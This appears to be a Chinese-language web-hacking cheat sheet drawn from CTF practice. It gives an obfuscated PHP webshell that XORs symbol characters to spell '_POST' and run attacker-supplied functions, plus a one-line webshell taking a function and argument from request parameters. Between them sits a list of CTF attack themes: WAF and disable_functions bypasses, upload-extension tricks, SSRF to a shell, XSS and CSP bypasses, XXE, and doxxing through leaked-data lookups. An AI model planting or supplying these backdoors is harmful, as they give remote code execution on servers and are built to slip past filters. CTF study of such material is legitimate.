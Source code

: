 

极限 `webshell`

```php
<?php
    @$_++; // $_ = 1
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
// 写成一行
<?php $__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");?>
```



**CTF 出题套路**

一、爆破，包括包括md5、爆破随机数、验证码识别等

二、绕WAF，包括花式绕Mysql、绕文件读取关键词检测之类拦截

三、花式玩弄几个PHP特性，包括弱类型，strpos和===，反序列化+destruct、\0截断、iconv截断、

四、密码题，包括hash长度扩展、异或、移位加密各种变形、32位随机数过小

五、各种找源码技巧，包括git、svn、xxx.php.swp、*www*.(zip|tar.gz|rar|7z)、xxx.php.bak、

六、文件上传，包括花式文件后缀 .php345 .inc .phtml .phpt .phps、各种文件内容检测<?php <? <% \<script language=php>、花式解析漏洞、

七、Mysql类型差异，包括和PHP弱类型类似的特性,0x、0b、1e之类，varchar和integer相互转换

八、open_basedir、disable_functions花式绕过技巧，包括dl、mail、imagick、bash漏洞、DirectoryIterator及各种二进制选手插足的方法

九、条件竞争，包括竞争删除前生成shell、竞争数据库无锁多扣钱

十、社工，包括花式查社工库、微博、QQ签名、whois

十一、windows特性，包括短文件名、IIS解析漏洞、NTFS文件系统通配符、::$DATA，冒号截断

十二、SSRF，包括花式探测端口，302跳转、花式协议利用、gophar直接取shell等

十三、XSS，各种浏览器auditor绕过、富文本过滤黑白名单绕过、flash xss、CSP绕过

十四、XXE，各种XML存在地方（rss/word/流媒体）、各种XXE利用方法（SSRF、文件读取）

十五、协议，花式IP伪造 X-Forwarded-For/X-Client-IP/X-Real-IP/CDN-Src-IP、花式改UA，花式藏FLAG、花式分析数据包



![img](https://pic4.zhimg.com/80/133c88180340b844466e8fa5552e122b_hd.jpg)



```php
<?=$_GET[0]($_POST[1])?>
```

`eval()` 是语言构造器，而不是函数，不能用可变函数的形式调用它，这里可以使用 `assert`
